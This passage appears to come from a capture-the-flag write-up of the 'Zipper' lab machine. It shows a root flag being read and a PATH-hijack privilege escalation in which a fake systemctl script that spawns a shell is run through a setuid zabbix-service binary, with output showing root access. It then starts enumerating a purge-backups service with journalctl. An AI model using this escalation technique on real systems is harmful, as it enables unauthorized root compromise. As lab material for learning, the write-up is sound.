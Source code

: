 
Now can grab root flag:

    
    
    root@zipper:/root# cat root.txt 
    a7c743d3...
    

Interestingly, this can be done directly from the Zabbix account, in case I
wanted to skip user and go right to root:

    
    
    zabbix@zipper:/home/zapper/utils$ echo -e '#!/bin/sh\n\n/bin/sh' > /dev/shm/systemctl 
    zabbix@zipper:/home/zapper/utils$ chmod +x /dev/shm/systemctl                         
    zabbix@zipper:/home/zapper/utils$ export OLD=$PATH                                    
    zabbix@zipper:/home/zapper/utils$ export PATH=/dev/shm                                
    zabbix@zipper:/home/zapper/utils$ ./zabbix-service                                    
    start or stop?: start
    # export PATH=$OLD
    # id
    uid=0(root) gid=0(root) groups=0(root),113(zabbix)
    

### Path 2 - purge-backups.sh

#### Enumeration

`journalctl` is a program that will query the contents of the `systemd` (a
service manager for Linux) journal. If I run it with the `-f` flag, it will
wait and display new entries as they are created. For example, if I start
`journalctl -f` and then run `./zabbix-service stop`, I see the service stop:

    
    
    Feb 21 05:59:12 zipper systemd[1]: Stopping Zabbix Agent...
    Feb 21 05:59:12 zipper systemd[1]: Stopped Zabbix Agent.
    

Starting makes a log as well:

    
    
    Feb 21 06:00:30 zipper systemd[1]: Reloading.
    Feb 21 06:00:30 zipper systemd[1]: Started Zabbix Agent.
    Feb 21 06:00:30 zipper zabbix_agentd[20068]: Starting Zabbix Agent [Zipper]. Zabbix 3.0.12 (revision 73586).
    Feb 21 06:00:30 zipper zabbix_agentd[20068]: Press Ctrl+C to exit.
    

If I just let it run for a while, I’ll see another service:

    
    
    zapper@zipper:/etc/systemd/system$ journalctl -f
    -- Logs begin at Sat 2018-09-08 02:45:49 EDT. --Feb 21 06:07:14 zipper systemd[1]: Started Purge Backups (Script).
    Feb 21 06:07:14 zipper systemd[1]: Started Purge Backups (Script).
    Feb 21 06:07:14 zipper purge-backups.sh[5884]: [>] Backups purged successfully
    Feb 21 06:12:14 zipper systemd[1]: Started Purge Backups (Script).
    Feb 21 06:12:14 zipper purge-backups.sh[5898]: [>] Backups purged successfully
    